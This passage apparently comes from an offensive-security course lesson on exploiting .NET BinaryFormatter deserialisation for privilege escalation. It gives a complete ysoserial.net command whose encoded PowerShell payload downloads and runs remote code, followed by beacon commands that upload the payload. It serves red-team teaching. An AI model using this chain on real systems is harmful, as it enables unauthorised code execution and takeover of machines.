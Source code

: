 # Software Vulnerabilities

Software applications may also be exploitable via traditional vulnerabilities \[[T1068](https://attack.mitre.org/techniques/T1068/)] such as buffer overflows, format strings, directory traversal, SQL or command injection, and deserialisation of untrusted data.  When such software is running in an elevated context, exploitation from a user context may result in an elevation of privilege.

The following example code reads in a binary file from an untrusted location, `C:\Temp\data.bin` and uses a BinaryFormatter to deserialise the data.  An adversary can exploit this if they can write a malicious binary blob to this location, which when deserialised, will execute their malicious code.

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/add93e6be05963fe0391264577f4338f.png" alt="" width="100%"><figcaption></figcaption></figure>

[ysoserial.net](https://github.com/pwntester/ysoserial.net) is an amazing tool for creating .NET gadgets for this purpose (although the number of options is overwhelming).  In the example below, I'm using the **TypeConfuseDelegate** gadget with the **BinaryFormatter** formatter, to run a PowerShell one-liner.  I output the data in raw format and write it to `C:\Payloads\data.bin`.

1

```batch
C:\Users\Attacker>C:\Tools\ysoserial.net\ysoserial\bin\Release\ysoserial.exe -g TypeConfuseDelegate -f BinaryFormatter -c "powershell -nop -ep bypass -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgAzADEANAA5ADAALwAnACkA" -o raw --outputpath=C:\Payloads\data.bin
```

Simply upload the file to the target and wait for our DNS Beacon to check-in.

```batch
beacon> cd C:\Temp
beacon> upload C:\Payloads\data.bin
```
